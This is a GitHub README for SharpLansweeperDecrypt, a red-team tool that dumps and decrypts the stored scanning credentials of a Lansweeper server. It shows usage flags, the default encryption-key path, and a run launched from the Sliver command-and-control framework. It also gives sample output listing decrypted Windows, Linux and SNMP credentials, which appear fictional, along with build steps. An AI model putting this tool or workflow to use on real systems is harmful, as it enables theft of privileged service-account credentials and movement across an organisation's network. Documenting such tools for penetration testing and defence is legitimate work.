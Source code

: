 # SharpLansweeperDecrypt

<p align="center">
  <img src="https://github.com/user-attachments/assets/36ae1a99-2c88-4a7a-b5f4-4a169bee4d26" width="400">


`SharpLansweeperDecrypt` is designed to automatically extract and decrypt all configured scanning credentials of a [Lansweeper](https://www.lansweeper.com) instance, provided there is local access to the server.

For manual decryption, the tool is capable of decrypting passwords when supplied with both the encrypted password and the encryption key (`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`).


1. Automatically identifies and decrypts the database connection strings contained within Lansweeper's `web.config` file.
2. Utilizes the decrypted connection strings to query the Lansweeper SQL database, retrieving all configured `Scanning Credentials`.
3. Locates the `Encryption.txt` file on the disk, which Lansweeper uses for credential encryption.
4. Applies the encryption key to decrypt and display the scanning credentials.

## Usage
```
PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -h
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Usage:
  No arguments: Runs the program as is, decrypting web.config and connecting to the SQL database.
  -p <path>: Optional path to the encryption key. If not provided, a default path is used.
  -e <encryptedPassword>: Decrypts the provided encrypted password without decrypting web.config or connecting to the SQL database.
```

### Automatic Decryption

With no arguments specified the tool will try to automatically dump and decrypt all configured `Scanning Credentials`

```
sliver (maldev) > inline-execute-assembly tool/SharpLansweeperDecrypt.exe -

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:
[+] Success - Wrote 12298 bytes to memory

╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

[+] Loading web.config file...
[+] Decrypted connectionStrings section:
Using connectionString: Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=InfiniteVoid*GetoSuguru;Connect Timeout=10;Application Name="LsService Core .Net SqlClient Data Provider"
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: SNMP-Private              │
│ Username:   SNMP Community String     │
│ Password:   private                   │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Global SNMP               │
│ Username:                             │
│ Password:   public                    │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Windows         │
│ Username:   SWEEP\svc_inventory_win   │
│ Password:   CursedEnergy$Itadori$     │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Linux           │
│ Username:   svc_inventory_lnx         │
│ Password:   CurseExorcist#Gojo!       │
└───────────────────────────────────────┘
[+] Database connection closed.

[+] inlineExecute-Assembly Finished
```
### Manual Decryption
Sould the `web.config` file be undecryptable or access to the SQL service be unavailable, `SharpLansweeperDecrypt` offers a manual decryption option using the `-e` flag. In cases where the encryption key's path is not explicitly provided with the `-p` flag, the tool defaults to using `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`.

```PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -e 'fuVE63qSVMPbuSnYUdUE+MuRpn8t/PXyLnMUb4gfDew='
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Decrypted Password: ForbiddenTechnique#DomainExpansion
```

### Powershell
In addition to the C# version, this repository also includes a PowerShell script, `LansweeperDecrypt.ps1`, which automates the process of dumping and decrypting Lansweeper credentials. 

## Compilation
Ensure your C# development environment (e.g., .NET SDK, Visual Studio) is set up correctly. The project requires the `System.Configuration.ConfigurationManager`.

```sh
dotnet add package System.Configuration.ConfigurationManager
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Configuration.ConfigurationManager` from there.

## Acknowledgments

Special thanks to the [LansweeperPasswordRecovery](https://github.com/GoSecure/LansweeperPasswordRecovery) repository for providing guidance on how to decrypt Lansweeper Scanning Credentials.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->
